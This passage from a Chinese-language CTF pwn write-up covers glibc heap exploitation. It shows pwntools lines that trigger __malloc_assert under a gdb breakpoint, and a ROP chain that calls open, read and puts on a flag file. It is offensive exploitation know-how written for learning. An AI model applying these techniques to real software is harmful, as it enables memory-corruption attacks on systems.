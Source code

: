 [![](assets/1699929779-e7c87e55bbd943bd3d60f7e70f898e44.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110001456-1f8e1aee-7f1b-1.png)

### 四、\_malloc\_assret

```plain
cat(1)
p.sendlineafter(":",str(10))
gdb.attach(p,'b* (_IO_wfile_seekoff)')
p.sendlineafter(":",str(0x450))
```

[![](assets/1699929779-93ffb2b59eada8e9cee481be74b38984.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110001504-243344fc-7f1b-1.png)

### 五、ROP 链

构造：

```plain
rop = p64(pop_rdi) + p64(0) + p64(close) #close(0)
rop += p64(pop_rdi) + p64(flag_addr) + p64(pop_rax) + p64(2) + p64(syscall_ret) #open(flag)
rop += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(flag_addr+0x10) + p64(pop_rdx_r12) + p64(0x100) + p64(0) + p64(read) #read(0,flag_addr+0x10,0x100)
rop += p64(pop_rdi) + p64(flag_addr+0x10) + p64(puts) #puts(flag_addr+0x10)
```
